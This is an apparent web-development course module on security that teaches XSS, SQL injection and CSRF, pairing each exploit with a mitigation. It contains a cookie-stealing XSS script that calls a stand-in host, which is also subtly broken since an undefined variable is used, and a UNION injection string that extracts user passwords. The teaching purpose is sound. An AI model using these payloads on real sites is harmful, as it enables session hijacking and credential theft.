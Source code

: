 # 4.4: Security

## Learning Objectives

1. The most vulnerable security loopholes are usually human ones such as phishing or insecure storage of passwords
2. If we follow best practices for building apps, generally our apps should be technically secure
3. Know how well-known attacks such as XSS, CSRF and SQL injection work

## Introduction

Data breaches more commonly exploit human behaviour than technical loopholes, using techniques such as phishing to retrieved credentials from privileged users. This is why cybersecurity is more often about mandating phishing training, multi-factor authentication and minimal access privileges across organisations than technical security of applications.

If we follow best practices for building apps as we have so far, our apps should be technically secure. When we deviate from standard libraries and configure authentication, database access, cloud access privileges manually, that is when security considerations become more relevant. Teams that manage sensitive data should conduct regular audits to ensure technical application security.

In this submodule we will learn about 3 well-known types of technical attacks on web applications, so common they are listed in the <a href="https://owasp.org/www-project-top-ten/" target="_blank">OWASP Top 10</a>, a publicly-maintained list of the 10 most common web application security risks. These are Cross-Site Scripting (XSS), SQL Injection and Cross-Site Request Forgery.

## Cross-Site Scripting (XSS)

### Introduction

Cross-site scripting (aka XSS) is a type of injection attack where an attacker saves JavaScript in a system to be executed later. When executed, that JavaScript might send a request with the logged-in user's credentials to a different server, or perform an unauthorised transaction on the current server.

### Part 1: Save JavaScript to database

#### Exploit

The first part of an XSS attack is saving JavaScript to the database. We can do this by entering JavaScript into an non-sanitised form field, such as the following.

```javascript
<script>alert("Hey!")</script>
```

#### Mitigation: Validate user input

Always validate user input before saving to database. Validation logic is complicated, but luckily others have implemented convenient libraries for us and those libraries are publicly maintained. One of the most popular validation libraries is <a href="https://www.npmjs.com/package/xss" target="_blank">`xss`</a>.

### Part 2: Execute non-sanitised user input

#### Exploit

Once the app has saved our script to the database, the app should run our script every time the app retrieves that data and renders it in the frontend.

We can now make the app execute arbitrary JavaScript and alter our JavaScript to steal other users' credentials. One such exploit would be to send the logged-in user's cookies to our own server. Below is an example of such a script that creates an `img` HTML element whose `src` attribute is our URL with all cookies attached.

```html
<script>
  const allCookies = document.cookie;
  document.createElement('img'); 
  imgEl.src = 'http://my-bad-domain.com?' + allCookies;
</script>
```

#### Mitigation: Sanitise database values before executing

Most modern view libraries including React will automatically sanitise values before rendering them in HTML to prevent XSS attacks. To prevent this exploit, use a standard library such as React for rendering views, and if we cannot, find a <a href="https://github.com/component/escape-html" target="_blank">library to escape values</a> before rendering those values in HTML.

<a href="https://reactjs.org/docs/introducing-jsx.html#jsx-prevents-injection-attacks" target="_blank">Here is React's documentation</a> on how it sanitises input before rendering it in JSX.

## SQL Injection

### Introduction

SQL injection is a type of injection attack where the attacker injects malicious SQL into user input that is subsequently executed on the database. This is commonly used to steal or corrupt data.

### Exploit: Clever SQL Syntax

Imagine the following Express logic that generates a SQL query.

```javascript
const query = `SELECT name, type FROM cats WHERE name='${request.params.name}'`
```

Now imagine instead of a valid name, we input the following to the app.

```sql
kai' UNION SELECT email, password FROM users--
```

This would generate the following SQL query, which would return all user emails and passwords.

```sql
SELECT name, type FROM cats WHERE name='kai' UNION SELECT email, password FROM users--'
```

The above example is from <a href="https://portswigger.net/web-security/sql-injection" target="_blank">Portswigger</a>, a well-known web security blog. `UNION` syntax let's us execute an additional SQL query and append results to the original.

### Mitigation: Always parameterise SQL queries

Our app is vulnerable to SQL injection because we use raw user input in our SQL query.

To prevent this, most SQL libraries such as `pg` allow us to provide user input as parameters separate from the SQL query, such that the library can sanitise that input before constructing the query. ORM libraries like Sequelize automatically sanitise input when constructing SQL queries.

## Cross-Site Request Forgery (CSRF)

### Introduction

Cross-Site Request Forgery (aka CSRF) is an attack where an attacker sends a forged request to a legitimate server to perform functionality on behalf of a user. This forged request is commonly generated by phishing, for example making the user click a link that triggers the attack functionality. This can be used to compromise user accounts by changing passwords, for example.

### Exploit Part 1: Make user click on link

If we suspect a user's browser may be storing authentication credentials, we can use phishing techniques to make that user click on a link that either changes those credentials to something we know (e.g. change password) or perform other functionality (e.g. transfer money). This link can be masked with text (e.g. "unsubscribe here") or a call to action button (e.g. "Learn More").

### Exploit Part 2: Legitimate server does not check for CSRF

As an example, if an API server's password reset route were a GET route and user credentials were stored in the browser from a previous login, attackers could craft a link to set new password credentials in the request URL while sending login credentials via cookies with the request. This is why we should always use POST or PUT requests for altering data on our servers.

### Mitigation: CSRF token and token verification

To prevent CSRF, we can protect sensitive routes that should only be accessed by specific forms (and not wild links) with cryptographic tokens called CSRF tokens. These tokens would be generated by the backend, passed to the frontend on form load and validated by the backend on form submission. This guarantees that users can only submit valid form submissions from the frontend app and nowhere else.

<!-- <a href="http://expressjs.com/en/resources/middleware/csurf.html" target="_blank">`csurf`</a> is the most popular CSRF token library for Express. -->

There are a lot of CSRF protection packages available in <a href="https://www.npmjs.com/search?q=express%20csrf" target="_blank">npm</a>.